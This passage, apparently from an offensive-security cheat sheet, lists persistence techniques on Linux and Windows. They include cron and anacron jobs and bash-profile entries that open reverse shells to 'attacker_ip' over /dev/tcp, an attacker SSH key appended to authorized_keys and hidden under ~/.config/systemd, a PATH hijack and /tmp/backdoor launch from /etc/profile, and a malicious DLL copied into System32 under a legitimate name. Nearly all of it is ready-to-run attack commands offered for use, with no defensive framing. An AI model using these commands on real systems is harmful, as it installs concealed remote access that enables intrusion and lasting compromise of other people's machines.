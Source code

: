 ### Cron-Based Persistence
```bash
# User crontab
(crontab -l 2>/dev/null; echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'") | crontab -

# System-wide cron
echo "*/10 * * * * root /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" >> /etc/crontab

# Anacron for systems not always on
echo "1 5 system-check /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" >> /etc/anacrontab
```

### SSH Key Persistence
```bash
# Add SSH key to authorized_keys
mkdir -p ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh

# Hide in less obvious locations
mkdir -p ~/.config/systemd
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ..." >> ~/.config/systemd/authorized_keys
```

### Profile-Based Persistence
```bash
# Bash profile modification
echo 'export PATH="/tmp/.hidden:$PATH"' >> ~/.bashrc
echo '/bin/bash -c "bash -i >& /dev/tcp/attacker_ip/4444 0>&1" &' >> ~/.bash_profile

# System-wide profile
echo 'if [ "$USER" = "target_user" ]; then /tmp/backdoor & fi' >> /etc/profile
```

## Advanced Persistence Techniques

### DLL Hijacking (Windows)
```powershell
# Identify DLL search order
$env:PATH -split ';'

# Place malicious DLL in higher priority location
Copy-Item "malicious.dll" "C:\Windows\System32\legitimate_name.dll"

# PowerShell DLL hijacking
$code = @"
using System;
using System.Runtime.InteropServices;
public class Backdoor {
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetCurrentProcess();
    
    public static void Execute() {
        // Backdoor code here
    }
}
"@
Add-Type -TypeDefinition $code
```
